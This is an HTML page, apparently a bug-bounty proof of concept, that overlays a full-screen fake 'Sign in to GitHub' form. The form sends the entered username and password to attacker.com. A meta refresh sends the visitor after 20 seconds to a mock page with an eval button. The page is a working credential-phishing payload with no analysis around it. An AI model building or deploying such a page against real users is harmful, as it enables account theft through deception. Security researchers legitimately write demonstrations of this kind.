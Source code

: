 <html>
<head>
 <meta http-equiv="refresh" content="20;URL='https://mock.bugpoc.ninja/dd5ce1d4-7d73-4c6a-9063-da55cb001b29/m?sig=1483e32b123c57672ff923e6e98c0def8514df77dd2263e4decf2f35de4c8f1b&headers=%7B%22Content-Type%22%3A%22text%2Fhtml%22%7D&body=%3Cbody%20style%3D%22background-color%3Awhite%3Bcolor%3Ablack%3B%22%3E%0A%3Ctextarea%20id%3D%22test%22%3Econsole.log(window.location)%3C%2Ftextarea%3E%0A%3Cbutton%20onclick%3D%22eval(test.value)%22%3Eeval%3C%2Fbutton%3E%0A%3C%2Fbody%3E'" />    
</head>
    <body>
        <div style="position:fixed;left:0;top:0;width:100%;height:100vh;background: #c9d1d9;z-index:1; padding-top: 10vh;color:#090d11">
            <center>
                <svg height="48" aria-hidden="true" viewBox="0 0 16 16" version="1.1" width="48" data-view-component="true" class="octicon octicon-mark-github">
                    <path fill-rule="evenodd" d="M8 0C3.58 0 0 3.58 0 8c0 3.54 2.29 6.53 5.47 7.59.4.07.55-.17.55-.38 0-.19-.01-.82-.01-1.49-2.01.37-2.53-.49-2.69-.94-.09-.23-.48-.94-.82-1.13-.28-.15-.68-.52-.01-.53.63-.01 1.08.58 1.23.82.72 1.21 1.87.87 2.33.66.07-.52.28-.87.51-1.07-1.78-.2-3.64-.89-3.64-3.95 0-.87.31-1.59.82-2.15-.08-.2-.36-1.02.08-2.12 0 0 .67-.21 2.2.82.64-.18 1.32-.27 2-.27.68 0 1.36.09 2 .27 1.53-1.04 2.2-.82 2.2-.82.44 1.1.16 1.92.08 2.12.51.56.82 1.27.82 2.15 0 3.07-1.87 3.75-3.65 3.95.29.25.54.73.54 1.48 0 1.07-.01 1.93-.01 2.2 0 .21.15.46.55.38A8.013 8.013 0 0016 8c0-4.42-3.58-8-8-8z"></path>
                </svg>
                <h1 style="font-size: 24px;font-weight: 300;letter-spacing: -.5px;">Sign in to GitHub</h1>
                <div style="padding-top:1em; padding-bottom: 1em; background:#090d11;width:50%; border-radius:7px;color:#c9d1d9">
                    <form action="https://attacker.com" accept-charset="UTF-8" method="get">
                        <label for="login_field">Username or email address</label><br/>
                        <input style="background:#c9d1d9;width:50%; border-radius:7px;color:#090d11" type="text" name="login" id="login_field" autocomplete="username" autofocus="autofocus"><br/>
                        <label for="password">Password</label><br/>
                        <input style="background:#c9d1d9;width:50%; border-radius:7px;color:#090d11" type="password" name="password" id="password" autocomplete="current-password"><br/><br/>
                        <input style="background:#2ea043; border-color:#2ea043; width:50%; border-radius:7px;color:white; text-weigth: bold; font-size: 17px;" type="submit" name="commit" value="Sign in">
                    </form>
                </div>
            </center>
        </div>
    </body>
</html>
